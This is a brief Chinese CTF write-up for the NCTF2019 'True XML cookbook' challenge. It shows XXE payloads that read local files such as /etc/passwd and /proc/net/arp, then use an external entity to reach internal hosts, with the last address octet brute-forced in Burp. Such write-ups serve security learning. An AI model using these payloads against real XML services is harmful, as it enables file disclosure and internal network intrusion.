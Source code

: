 # \[NCTF2019]True XML cookbook

## \[NCTF2019]True XML cookbook

## 考点



## wp

直接抓包进行XXE

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

提示加载失败，把文件换成`/etc/passwd`就成功加载了。再去读`/etc/hosts`

![](<../.gitbook/assets/image (24) (1).png>)

再去读`/proc/net/arp`

![](<../.gitbook/assets/image (19) (1) (1).png>)

看到内网有存活的主机，尝试访问，提示失败

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://169.254.1.1/">
  ]>
<user><username>&admin;</username><password>123546</password></user>
```

放在burp里面爆破一下最后一位地址即可
